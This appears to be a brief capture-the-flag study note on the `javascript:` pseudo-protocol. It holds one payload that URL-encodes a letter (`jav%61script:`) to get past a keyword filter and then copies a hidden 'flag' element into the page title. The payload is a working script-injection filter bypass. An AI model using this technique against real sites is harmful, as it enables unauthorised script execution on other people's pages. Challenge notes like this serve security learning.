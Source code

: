 tags:: [[CTF/HTML&HTTP]]

-
- `javascript:`伪协议
- ```
  jav%61script:(() => document.getElementsByTagName('title')[0].innerHTML = document.getElementsByClassName('flag')[0].innerHTML)()
  ```
-